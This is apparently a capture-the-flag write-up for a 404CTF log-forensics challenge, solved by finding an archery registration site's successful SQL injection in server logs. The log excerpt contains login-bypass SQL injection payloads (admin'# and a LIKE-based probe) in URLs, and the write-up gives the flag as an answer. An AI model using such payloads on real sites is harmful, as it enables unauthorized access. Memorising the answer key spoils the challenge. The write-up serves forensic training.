# Le tir aux logs ⚪

[< Go back](../../README.md)

## Description

Il semblerait qu'une personne malveillante ait réussi à se connecter sur le site d'inscription d'une compétition de tir à l'arc.
Aidez-nous à investiguer sur cette attaque via le fichier de logs de notre serveur. Quel est l'URL complète qui a permis de se connecter de manière frauduleuse ?

Le flag attendu est l'URL utilisée par l'attaquant pour exploiter une vulnérabilité du site avec succès, entouré du format habituel.
Par exemple, si l'attaquant se rend sur la page <https://example.com?authenticated=1> pour se connecter de manière frauduleuse, le flag sera 404CTF{<https://example.com?authenticated=1}>.
Par ailleurs, toutes les IP utilisées sont fictives et non pertinentes.

all files in [resources/](./resources) were provided.

## Challenge

Successful SQL injection:

```
146.70.147.101 - - [19/Feb/2024:19:28:44 -0500] "GET /index.php?username=admin%27%23&password=test HTTP/1.1" 302 784 "http://www.inscription_tir_arc.com/index.php?username=admin%22+AND+password+LIKE+%27a%25%27%23&password=test" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0"
146.70.147.101 - - [19/Feb/2024:19:28:44 -0500] "GET /admin.php HTTP/1.1" 200 318 "http://www.inscription_tir_arc.com/index.php?username=admin%22+AND+password+LIKE+%27a%25%27%23&password=test" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0"
```

The user got access to the admin page via the `302` redirection from the SQLi attack.

I first tried the flag with the Referer URL but that doesn't work the correct flag is the GET URI + the base URL.

Flag: `404CTF{http://www.inscription_tir_arc.com/index.php?username=admin%27%23&password=test}`
